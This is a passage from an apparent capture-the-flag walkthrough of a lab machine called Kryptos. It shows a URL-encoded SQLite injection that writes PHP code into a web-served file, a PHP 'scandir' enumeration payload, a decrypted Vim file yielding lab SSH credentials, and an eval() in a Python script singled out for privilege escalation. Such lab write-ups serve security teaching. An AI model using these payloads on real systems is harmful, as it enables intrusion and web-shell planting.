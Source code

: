 ```
Which has been URL encoded to this:
```
http://127.0.0.1/dev/sqlite_test_page.php?no_results=FALSE&bookid=%31%20%6f%72%20%31%3d%31%3b%61%74%74%61%63%68%20%64%61%74%61%62%61%73%65%20%27%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%64%65%76%2f%64%39%65%32%38%61%66%63%66%30%62%32%37%34%61%35%65%30%35%34%32%61%62%62%36%37%64%62%30%37%38%34%2f%6c%6f%76%65%2e%70%68%70%27%20%61%73%20%6c%6f%76%65%3b%63%72%65%61%74%65%20%74%61%62%6c%65%20%6c%6f%76%65%2e%70%77%6e%20%28%64%61%74%61%7a%20%74%65%78%74%29%3b%69%6e%73%65%72%74%20%69%6e%74%6f%20%6c%6f%76%65%2e%70%77%6e%20%28%64%61%74%61%7a%29%20%76%61%6c%75%65%73%20%28%22%3c%3f%70%68%70%20%70%68%70%69%6e%66%6f%28%29%3b%20%3f%3e%22%29%3b%2d%2d
```

We use burp to inject it and we can use the Xor method to get that page content.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-52.png" >}}

Well that concept worked, so now we can do one of two things. Create a payload with MSFPC or use built in PHP functions, `scandir` and `get_file_contents`, to enumerate. I don't really want to PHP filter anymore to get code on the box, so we'll use the enumeration option.

We can use ```<?php print_r(scandir('/home/')); ?>``` in our command to get the contents of the directory.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-53.png" >}}

We get back one user, rijndael. Lets do this again to get that users folder content as well.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-54.png" >}}

We see that we have quite a few things here for us to get. Trying to get the content of user.txt fails... of course. We try to get creds.txt and they seem to be a Vim encrypted file.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-55.png" >}}

We will try to take a peek at creds.old as well.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-56.png" >}}

Well then that's no good for us. When we look at the cred.txt file we see it says VimCrypt~02!. Given the documentation we either have pkzip, blowfish or blowfish2 encryption. [This article](https://dgl.cx/2014/10/vim-blowfish) suggests that its blowfish. Guess what, that's another Xor cipher! Luckily someone has done this for us, [vimdecrypt.py](https://github.com/nlitsme/vimdecrypt). Using the script we get back the combo of `rijndael` and `bkVBL8Q9HuBSpj`. We might be able to leverage that SSH port now.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-57.png" caption="It works, we are in!" >}}

Finally. User. Damn. Onto root!

Now that we are on the system, lets look around. We saw before that there was a directory called kryptos. Inside it we find a python script, kryptos.py.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-58.png" >}}

Immediately at looking at the script we see the eval function being called. We know that this is something we can leverage, however it does list builtins as ```None``` which slows us down. The script does three things, ```GET /```, ```GET /debug``` and ```POST /eval``` running on its self-created server on ```port 81```. We can check to see if this is running by using ```netstat```.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-59.png" >}}

```
